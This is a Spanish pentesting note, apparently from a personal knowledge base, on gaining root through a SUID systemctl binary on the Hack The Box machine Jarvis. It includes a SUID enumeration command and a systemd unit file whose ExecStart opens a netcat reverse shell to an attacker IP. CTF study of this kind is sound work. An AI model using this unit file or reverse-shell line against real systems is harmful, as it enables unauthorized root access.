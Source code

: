
## DESCRIPTION

ENUMERACIÓN: Buscamos ficheros ocn el SUID activado → find / -perm -4000 2>/dev/null

![[Pasted image 20230603103740.png]]

#### Mas información
* INFORMACIÓN: https://gtfobins.github.io/gtfobins/systemctl/
* https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html


## EXPLOITATION

1.  Creamos un archivo reverse shell:
![[Pasted image 20230603103804.png]]

2. Creamos el ficher del servicio:
EJECUCIÓN DIRECTA:
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.10 5555'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target

```

![[Pasted image 20230603103844.png]]

EJECUCIÓN DESDE SCRIPT --> ME DA UN FALLO

```
[Unit]
Description=test

[Service]
Type=oneshot
ExecStart=/tmp/shell.sh

[Install]
WantedBy=multi-user.target
```

![[Pasted image 20230603103922.png]]
**!!NOTA IMPORTANTE!!** poner oneshot para que no se vuelva loco
3. Creamos el link al servicio
NOTA: no ha sido posible crear el link en la carpeta tmp
![[Pasted image 20230603104029.png]]

4. Ejecutamos:

```
systemctl start shell (o como se llame el servicio)
```

## MACHINES

* Hack The Box: jARVIS

**!!NOTA IMPORTANTE!!** 